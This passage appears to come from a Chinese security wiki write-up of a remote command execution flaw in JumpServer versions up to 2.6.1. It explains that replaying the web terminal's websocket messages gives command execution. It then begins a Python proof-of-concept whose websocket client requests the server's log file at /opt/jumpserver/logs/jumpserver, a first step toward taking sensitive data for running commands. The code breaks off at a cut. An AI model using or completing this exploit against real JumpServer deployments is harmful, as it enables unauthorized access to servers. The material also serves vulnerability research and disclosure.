 模拟连接发送和接发数据

![](image/jump-16.png)

这里可以看到我们只要模拟了这个发送，返回的数据和web终端是一样的，那我们就可以通过这样的方法来进行命令执行了



## 漏洞利用POC

> [!NOTE]
>
> POC 里包含两个方法，一个是获取日志文件，另一个是命令执行
>
> 命令执行需要从日志中获取敏感数据并写入脚本对应的变量中 (这个感觉利用难度比较高吧，很多找不到这个数据)
>
> 接收数据如果卡住请调整 for i in range(7) 这个位置的 7

```python
import requests
import json
import sys
import time
import asyncio
import websockets
import re
from ws4py.client.threadedclient import WebSocketClient

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mPOC_Des: https://www.o2oxy.cn/                                    \033[0m')
    print('+  \033[34mVersion: JumpServer <= v2.6.1                                     \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                            \033[0m')
    print('+  \033[36mCmd         >>> whoami				                            \033[0m')
    print('+------------------------------------------')

class ws_long(WebSocketClient):

    def opened(self):
        req = '{"task":"/opt/jumpserver/logs/jumpserver"}'
```